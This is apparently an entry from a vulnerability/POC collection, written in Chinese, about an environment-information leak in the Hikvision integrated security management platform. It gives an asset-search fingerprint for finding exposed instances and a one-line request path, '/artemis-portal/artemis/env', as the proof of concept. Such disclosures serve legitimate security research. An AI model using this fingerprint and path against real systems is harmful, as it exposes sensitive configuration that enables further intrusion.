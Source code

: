 # Hikvision 综合安防管理平台 env 信息泄漏漏洞

## 漏洞描述

Hikvision 综合安防管理平台存在信息泄漏漏洞，攻击者通过漏洞可以获取环境env等敏感消息进一步攻击

## 漏洞影响

Hikvision 综合安防管理平台

## 网络测绘

```
app="Hikvision-综合安防管理平台"
```

## 漏洞复现

登录页面

![image-20220824134144287](images/202208241341481.png)

验证POC

```
/artemis-portal/artemis/env 
```

![image-20230828163057813](images/image-20230828163057813.png)